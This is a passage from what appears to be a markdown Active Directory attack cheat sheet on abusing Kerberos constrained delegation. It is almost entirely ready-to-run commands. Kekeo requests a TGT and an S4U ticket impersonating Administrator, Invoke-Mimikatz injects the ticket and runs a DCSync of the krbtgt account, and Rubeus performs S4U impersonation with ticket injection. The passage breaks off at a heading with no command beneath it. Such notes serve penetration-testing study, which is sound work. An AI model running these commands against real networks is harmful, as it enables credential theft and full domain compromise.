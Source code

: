 ### <span style="color:#F1C232">2. Requesting a TGT </span>

```console
.\kekeo.exe

tgt::ask /user:domain-here /domain:domain.local /rc4:rc4-hash-here
```

### <span style="color:#F1C232">3. Request a TGS </span>

```console
.\kekeo.exe

tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">4. Inject the ticket</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```

### <span style="color:#F1C232">5. Execute DCSync (extra)</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <span style="color:#F1C232">6. We can access the file system</span>

```powershell
ls \\dc-name-here\C$
```

## <span style="color:lightgreen">Using Rubeus.exe - Users</span>

### <span style="color:#F1C232">1. We request a TGT for userX using its NTLM hash to get a TGS for userX as the Domain Administrator - Administrator. Then the TGS used to access the service specified in the /msdsspn parameter (which is the filesystem on dc-child)</span>

```powershell
.\Rubeus.exe s4u /user:userX /rc4:rc4-hash-here /impersonateuser:Administrator /msdsspn:"CIFS/dc-child.child-domain.root-domain.LOCAL" /ptt
```

### <span style="color:#F1C232">2. Check if TGS is injected</span>
